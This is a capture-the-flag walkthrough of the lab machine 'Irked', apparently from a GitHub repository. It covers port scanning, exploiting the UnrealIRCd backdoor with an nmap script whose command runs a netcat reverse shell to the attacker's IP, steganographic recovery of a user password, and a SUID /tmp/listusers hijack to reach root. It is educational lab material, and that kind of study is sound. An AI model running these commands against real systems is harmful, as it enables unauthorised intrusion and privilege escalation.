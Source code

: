 # Irked

**Machine ip:** 10.10.10.117

## Enumeration
First thing first, start port scan:
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.117 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.117`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a39552d9-85e5-491a-9959-bdbb8f0dd5c5)

+ The result shows that 7 TCP ports are open:
```
Port 22: OpenSSH 6.7p1
Port 80: Apache httpd 2.4.10
Port 111: rpcbind 2-4
Port 6697: irc
Port 8067: irc
Port 56060: status
Port 65534: irc
```

+ As usual, always start off with enumerating web server first.
+ Visit the web application.
+ Navigate to `http://10.10.10.117/`, and an irc application works.
+ View Page Source, and there's no useful information.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/2f9bb664-f485-4f90-970d-bb4c2973f3dd)

+ Directory fuzzing to enumerate directories:
```
gobuster dir -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.117/ -k -n -x html,php,txt -r -t 50
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/882e7f81-c5d1-4ebb-9182-f853ce3aaa67)

+ The **/manual** directory directs to the default Apache HTTP server page, and nothing's interesting here, too.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78ebc503-c04b-4742-81c6-fa9919dae27a)

+ Check other ports. Ports 22 OpenSSH 6.7p1, and port 111 rpcbind 2–4 aren't promising. Ports 6697, 8067 and 65534 runs UnrealIRCd.
+ Check if there are any nmap scripts for irc.
+ To list related scripts: `ls -l /usr/share/nmap/scripts/irc*`
+ **Alternatively**, `find /usr/share/nmap/scripts -name '*irc*'`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3d0e30f9-e813-4d2b-8100-6225d57fb637)

+ Check `/usr/share/nmap/scripts/irc-unrealircd-backdoor.nse` [nmap nse script](https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html). It shows us that nmap detects if it's vulnerable, and also it starts a netcat listener that would give the attack machine a shell on the target system.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/53d45740-786a-4444-bc30-86628f3f09f1)

+ First, run an nmap scan to determine which of these ports are vulnerable to the backdoor.
```
nmap -p 6697,8067,65534 --script=irc-unrealircd-backdoor 10.10.10.117
```

+ Port 8067 is vulnerable.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bca03c40-0895-4f7f-b1d9-aeb4c1d0711d)



## Gaining Access

### Method 1
+ Start a netcat listener on the attack machine: `nc -lnvp 4444`
+ Try to send a reverse shell to the attack machine netcat listener from the target machine.
```
nmap -p 8067 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.6 4444" 10.10.10.117
```

+ Get the low level shell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b1a5b205-1807-4db2-8333-5c924009a39d)


+ Do more stable shell.
```
script /dev/null -c bash
CTRL^Z: Ctrl + Z
stty raw -echo; fg
reset
terminal type? 'screen' or 'xterm'
export TERM=xterm  
export SHELL=bash
stty rows 55 columns 285
```

+ There's no permission to read the user flag, and we need to escalate privileges.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/54a47658-1c3e-4daa-ac61-9b5ce93d48b7)


## Privilege Escalation: from 'ircd' to 'djmardov'
+ In **/home/djmardov/Documents**, there's a hidden file **.backup**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4cd93b71-8d2b-4e62-ad71-4cc5ff375314)

+ Take note of `UPupDOWNdownLRlrBAbaSSss` with the reference to steg.
+ Then download the emoji image file on **http://10.10.10.117/** irc home page: `wget 10.10.10.117/irked.jpg`
+ Try to extract data from image **irked.jpg** with discovered passphrase `UPupDOWNdownLRlrBAbaSSss`:
```
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8f73a461-00a4-487a-b18e-cbc48d325ae6)

+ Discovered **djmardov**'s password `Kab6h+m+bbp2J:HG`.
+ Login with `djmardov`:`Kab6h+m+bbp2J:HG` credentials with **su** or **ssh**.
+ Get the user flag with djmardov's privileges.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/9d597387-811b-42a8-94dd-cdf4ced48cb8)


## Privilege Escalation: from 'djmardov' to 'root'
+ Check the file which has the SUID bit set.
+ `find / -type f -user root -perm /4000 -exec ls -l {} \; 2>/dev/null`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/57b570f0-e63f-4226-9bef-a3f499d408a0)

+ We arent't familiar with the file **/usr/bin/viewuser**. Run it to see what it does.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/353a8dc7-b660-48c6-91be-04c6e3862ba3)

+ It throws an error saying that sh can't find **/tmp/listusers**.
+ Add `echo bash > /tmp/listusers`, and give execute permission `chmod +x /tmp/listusers`.
+ Then run: `viewuser`.
+ Get the root shell, and read root flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/52f52285-3812-4d81-bf7b-927e71b9ae4c)



# References & Alternatives
+ https://vvmlist.github.io/#irked
+ 

